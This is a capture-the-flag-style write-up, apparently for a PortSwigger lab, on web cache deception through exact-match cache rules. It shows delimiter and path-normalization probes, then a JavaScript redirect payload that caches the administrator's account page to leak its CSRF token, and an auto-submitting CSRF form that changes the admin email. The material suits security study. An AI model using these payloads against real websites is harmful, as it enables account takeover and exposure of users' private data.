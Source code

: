 # Exploiting exact-match cache rules for web cache deception
# Objective
To solve the lab, change the email address for the user `administrator`. You can log in to your own account using the following credentials: `wiener:peter`.

List of possible delimiter characters: [Web cache deception lab delimiter list](https://portswigger.net/web-security/web-cache-deception/wcd-lab-delimiter-list).

# Solution
## Analysis
Request to `/my-account` returns information about user's email and username. Request to `/my-account/change-email` allow user to change his email. This functionality is using `CSRF` token.

Responses from static files like `/robots.txt` are cached.

|![](Images/image-30.png)|
|:--:| 
| *Change email functionality* |
|![](Images/image-31.png)|
| *Cached file - robots.txt* |

## Exploitation
### Verification of path delimiter discrepancies
#### Path mapping discrepancies
Origin server doesn't abstract the path to `/my-account`, it is using traditional mapping.

```
GET /my-account             --> HTTP 200 - No caching
GET /my-account/test        --> HTTP 404 - No caching
GET /my-accounttest         --> HTTP 404 - No caching
```

#### Delimiter discrepancies
Enumeration revealed that origin server uses delimiters: `;` `?`. Everything after them is ignored and there is a response `200 OK`.

|![](Images/image-33.png)|
|:--:| 
| *Intruder configuration - deselected URL encoding* |
|![](Images/image-32.png)|
| *Intruder results* |

### Verification of path normalization discrepancies
Exploitation scenario for origin server normalization:
```
URL encoded: /<static-directory-prefix>/..%2f<dynamic-path>
URL encoded: /<static-directory-prefix>%2f%2e%2e%2f<dynamic-path>

URL decoded: /<static-directory-prefix>/../<dynamic-path>
```

Exploitation scenario for cache server normalization:
```
URL encoded: /<dynamic-path>/..%2f<static-directory-prefix>
URL encoded: /<dynamic-path>%2f%2e%2e%2f<static-directory-prefix>

URL decoded: /<dynamic-path>/../<static-directory-prefix>
```

Cache server normalizes requests. Cache server interprets request `/my-account/..%2frobots.txt` as `/robots.txt`, while orign server interprets it as `/my-account/..%2frobots.txt`.

The follwing requests need to be send withing `Age` widow:
```
GET /robots.txt                            --> HTTP 200 - Cache miss
GET /robots.txt                            --> HTTP 200 - Cache hit
GET /test/..%2frobots.txt                  --> HTTP 200 - Cache hit
GET /my-account/..%2frobots.txt            --> HTTP 200 - Cache hit
GET /my-account%2f%2e%2e%2frobots.txt      --> HTTP 200 - Cache hit
```
### Combining delimiter discrepancies and normalization discrepancies
Using the following payload cache server caches response from `/my-account;%2f%2e%2e%2frobots.txt` as `/robots.txt`. Requests to `/my-account;%2f%2e%2e%2frobots.txt` and `/robots.txt` returns the same response - user profile page. 
```
GET /my-account;%2f%2e%2e%2frobots.txt     --> HTTP 200 - Cache miss
GET /my-account;%2f%2e%2e%2frobots.txt     --> HTTP 200 - Cache hit
GET /robots.txt                            --> HTTP 200 - Cache hit
```

|![](Images/image-34.png)|
|:--:| 
| *Request without cache buster* |

The above behaviour, overwriting (poisoning) original `/robots.txt`, can be avoided by using cache buster `?`:
```
GET /my-account;%2f%2e%2e%2frobots.txt?cachebuster
```

|![](Images/image-35.png)|
|:--:| 
| *First request - Cache miss* |
|![](Images/image-36.png)|
| *Second request - Cache hit* |
|![](Images/image-37.png)|
| *Third request without session cookie - Cache hit* |
|![](Images/image-38.png)|
| *Third request without session cookie - Cache hit* |

### Exploitation CSRF via web cache deception
Payload to retrive Administrator CSTF token:
```js
<script>document.location="https://0a96009e045899db80c7c1ef003a003e.web-security-academy.net/my-account;%2f%2e%2e%2frobots.txt?cachebuster "</script>
```

|![](Images/image-39.png)|
|:--:| 
| *Retrieval of Administrator CSRF token from cached response* |

Final payload - CSRF exploit - generated via [CSRF PoC generator](https://csrf-poc-generator.vercel.app/):
```html
<html>
  <body>
    <form action="https://0a96009e045899db80c7c1ef003a003e.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@attack.attack" />
      <input type="hidden" name="csrf" value="pYw725ZghAyY3tAnrP4CEUmDdt8TW1rG" />
    </form>
    <script>
      document.forms[0].submit()
    </script>
  </body>
</html>
```

